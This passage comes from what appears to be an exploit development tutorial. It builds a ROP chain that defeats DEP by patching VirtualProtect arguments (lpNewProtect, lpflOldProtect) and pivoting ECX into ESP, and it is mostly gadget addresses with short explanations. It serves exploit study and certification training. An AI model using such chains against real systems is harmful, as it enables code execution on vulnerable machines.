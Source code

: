 ```py
## INC 4 INC, ALIGN STACK
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
0x61b474f8,  # inc ecx; ret;
## POP -40 IN EAX
0x64b4fa38,  # pop eax; ret;
0xffffffc0,  # -40
## NEG -40, TO BECOME 40
0x68cef5b2,  # neg eax; ret;
## WRITE EAX IN ECX (0x49494949)
0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
```

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/flnew-0x49.gif)

Okay, now let's patch the last one, which is the lpflOldProtect

# Patch lpflOldProtect

Now we need to use a PAGE_READWRITE address to store our old permission.

We'll use the ECX as a base and add some bytes in it.

```py
##############
# -> Patch lpflOldProtect 0x51515151
##############
## Put ECX on EAX
0x61ba4ca0,  # mov eax, ecx; ret;
## Put -20 in ESI and ADD it in EAX
0x61e30fe3,  # pop edx; ret;
0xffffffe0,  # -20
0x6eb47012,  # neg edx; ret;
0x6ab00690,  # add eax, edx; ret;
0x6aaa04ec,  # mov dword ptr [ecx], eax; ret;
```

Done, we used the values of ECX + 20, we put the 20 because we don't want to mess up with our gadgets and with our shellcode.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/flold-0x51.gif)

# ECX to ESP

Now, just put the value of ECX, which has our API, in the ESP value. We return 20 bytes because it's here the API CALL starts.

```py
##############
# -> ECX to ESP
##############
## PUT -20 on EBP
0x6aa812c9,  # pop ebp; ret;
0xffffffec,  # -20
## DEC ECX in 20
0x6d9c8e42,  # add ecx, ebp; ret;
## PUT ECX, on ESP
0x6eb53647,  # mov esp, ecx; ret;
```
